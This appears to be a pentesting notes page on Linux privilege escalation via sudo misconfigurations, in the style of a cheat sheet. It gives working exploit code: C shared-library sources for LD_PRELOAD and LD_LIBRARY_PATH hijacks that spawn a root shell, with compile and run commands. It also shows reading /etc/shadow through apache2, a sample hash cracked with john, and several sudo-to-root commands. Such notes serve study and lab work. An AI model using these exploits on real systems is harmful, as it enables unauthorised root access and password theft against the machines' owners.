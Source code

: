 ```yaml
---
title: Sudo
parent: Method
layout: default
nav_order: 2
---
```


## Environmental Variables
#### LD_PRELOAD
1. Use `sudo -l` to check if there is an `env_keep` option for `LD_PRELOAD`
2. Create a file (preload.c) with the file content below.
3. Compile preload.c to preload.so:\
   `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`
4. Run any allowed program using `sudo`, and set LD_PRELOAD to the compiled preload.so:\
   `sudo LD_PRELOAD=/tmp/preload.so apache2`

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
​
void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

#### LD_LIBRARY_PATH
1. Use `sudo -l` to check if there is an `env_keep` option for `LD_LIBRARY_PATH`
2. Run `ldd` against those suspicious app, eg apache2:\
   `ldd /usr/sbin/apache2`
3. Randomly choose 1 of the library used (trial and error) for eg if we choose libcrypt.so.1
4. Create a file as below (library_path.c)
5. Compile the file into libcrypt.so.1:\
   `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`
6. Run apache2 using `sudo` while setting LD_LIBRARY_PATH to the current directory (`.`) where we compiled the file: `sudo LD_LIBRARY_PATH=. apache2`

library_path.c
```
#include <stdio.h>
#include <stdlib.h>
​
static void hijack() __attribute__((constructor));
​
void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

## Shell Escape Sequence
1. List allowed to run via `sudo -l`.
2. Check for shell escape sequence at https://gtfobins.github.io/
3. Perform the sequence listed

## Abusing Intended Functionality
1. Some don't have escape sequence but somehow can abuse their function.
2. For example if run `sudo -l` and see apache2.
3. By providing apache2 with a config file:
   `sudo apache2 -f /etc/shadow`
   will throw you the full line 1 which is usually root.
4. Save the hash:\
   `echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVl aXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt`
5. Crack using john:\
   `john --format=sha512crypt --wordlist=/usr/share/seclists/rockyou.txt hash.txt`
6. `su` then type in cracked password.

## ALL:ALL as another user
1. Use `sudo -u anotheruser bash -i`, then you have access as that user.

## Known Low Privilege Password
1. Type `sudo su` and enter the current user password.
2. If allowed will gain root access.
3. If `su` not allowed can try the following:
   `sudo -s`
   `sudo -i`
   `sudo /bin/bash`
   `sudo passwd`